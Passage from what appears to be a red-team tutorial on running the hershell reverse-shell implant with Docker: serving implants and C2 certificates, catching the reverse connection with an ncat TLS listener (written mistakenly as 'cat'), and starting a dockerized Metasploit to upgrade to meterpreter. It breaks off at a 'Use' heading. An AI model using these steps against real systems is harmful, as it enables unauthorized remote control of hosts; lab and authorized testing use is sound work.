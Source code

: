 Point your web browser to `http://DOCKER-HOST-IP:8000`, download the implant for your target environment, as well as `server.pem` and `server.key` for our C2.

Alternatively, you can use `wget` or `curl`.

You should keep the hershell container running as we'll need to fetch our certificate and key with Metasploit.

### Ncat with TLS cert & key

To catch the initial reverse call, we'll use the `ncat` example provided. `ncat` can be found in the `nmap` package.

Once our `server.pem` and `server.key` files downloaded, we can set it up like so:

```
$ cat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8088
```

If everything goes according to plan, running the hershell binary should get you a clean reverse connection to the ncat listener.

![rev](https://github.com/khast3x/khast3x.github.io/blob/master/assets/demo/hershell_ncat.png?raw=true)

### MSF

[This](https://hub.docker.com/r/remnux/metasploit/) build encapsulates the Metasploit Framework, as well as a pre-configured `postgresql` server with the `msfdb` working.
The `nmap` package is also pre installed, meaning we have `ncat` in the container too.

### Launch

We're going to upgrade our hershell to a meterpreter session, using a dockerized Metasploit console.  

Contrary to the previous method, MSF will only need our `server.key` file.


To launch our `metasploit` container, we simply do:
```bash
$ docker run -it -p "8443:8443" -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
```

The first run might take some time, so leave it running a few minutes :coffee:

We're using the `docker run` line from the [Docker hub page](https://hub.docker.com/r/remnux/metasploit/).

### Use
